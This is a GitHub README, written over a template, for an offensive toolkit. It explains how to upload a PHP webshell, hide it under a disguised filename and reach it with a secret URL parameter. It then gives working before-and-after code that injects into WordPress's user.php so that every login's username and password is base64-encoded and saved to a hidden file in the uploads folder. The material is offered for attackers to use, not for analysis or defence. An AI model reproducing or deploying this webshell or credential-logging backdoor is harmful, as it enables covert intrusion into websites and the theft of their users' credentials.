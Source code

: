 # JustRepository

One Paragraph of project description goes here

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz* - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php.

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                $credz = date('Y-m-d') . "Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.php.swp', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.php.swp
```
